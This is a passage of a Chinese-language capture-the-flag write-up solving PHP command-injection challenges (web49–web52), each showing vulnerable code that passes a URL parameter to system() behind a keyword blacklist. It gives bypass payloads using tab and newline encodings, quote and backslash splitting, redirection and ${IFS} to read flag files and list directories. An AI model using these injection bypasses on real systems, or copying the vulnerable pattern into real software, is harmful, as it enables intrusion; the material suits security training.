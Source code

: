 同上，这里虽然过滤了%，但是%09会被优先解析成制表符，也就是说先经过浏览器一次url解码，再进行传参
payload：/?c=tac%09fla?.php%0a
## web50（''绕过）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
这一次把制表符过滤了，那就换个姿势，发现在使用<代替空格的时候通配符貌似就不起作用了，所以使用''来绕过flag的匹配，此外使用转义符也是可行的，除了一些特殊字符转义后会成为其他字符外，剩下的转义后还是本身，等同于没转义
payload：/?c=tac<fla''g.php%0a或/?c=tac<fla\g.php%0a
## web51（''绕过）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
过滤了tac，其他常见的打印命令也ban了，其实还有个nl可用，执行后回显1，右键查看源码得到flag
payload：/?c=nl<fl''ag.php%0a
## web52（${IFS}绕过）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
这个题过滤了<，绕过空格还有${IFS}可用
payload：/?c=nl${IFS}fla?.???%0a
查看源码发现
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637853342916-eb9219b4-c9cd-49bf-be86-abe257504657.png#)
？？？我的flag呢，看下目录payload：/?c=ls%0a
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637853425951-9563e023-b815-4ea2-99fe-0969929a129f.png#)
看来flag不在此处，看看根目录payload：/?c=ls${IFS}/%0a
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637853470065-f03fafa3-81c1-45fc-b368-4eebab029915.png#)
第四个文件叫flag，进去看看payload：/?c=nl${IFS}/fla?%0a
答案回显在页面上，完活儿
